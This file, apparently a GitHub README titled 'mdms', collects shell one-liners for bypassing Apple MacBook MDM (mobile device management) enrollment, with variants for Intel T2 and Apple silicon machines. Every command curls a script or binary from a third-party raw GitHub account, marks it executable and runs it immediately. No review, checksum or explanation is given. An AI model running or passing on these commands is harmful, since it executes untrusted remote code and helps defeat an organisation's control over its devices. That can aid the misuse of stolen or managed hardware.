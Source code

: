 # mdms 
#mdm from https://github.com/nikhillalkota/mdm-bypass/blob/test/script.sh

curl https://raw.githubusercontent.com/Hajcuska/mdm/main/script.sh -o macbook-mdm-bypass.sh; \
chmod +x macbook-mdm-bypass.sh; \
sh macbook-mdm-bypass.sh;


#mdm from https://github.com/gamethapcam/mdm-bypass/tree/main
#M2chip-Apple  T2Chip-Intel
#intel

curl -# https://raw.githubusercontent.com/Hajcuska/mdm/main/T2Chip -o file && chmod 777 ./file && ./file
#apple

curl -# https://raw.githubusercontent.com/Hajcuska/mdm/main/MChip -o file && chmod 777 ./file && ./file



#mdm from https://github.com/EightAugusto/macbook-mdm-bypass

curl https://raw.githubusercontent.com/Hajcuska/mdm/main/8Augusto-macbook-mdm-bypass.sh -o macbook-mdm-bypass.sh; \
chmod +x macbook-mdm-bypass.sh; \
sh macbook-mdm-bypass.sh;
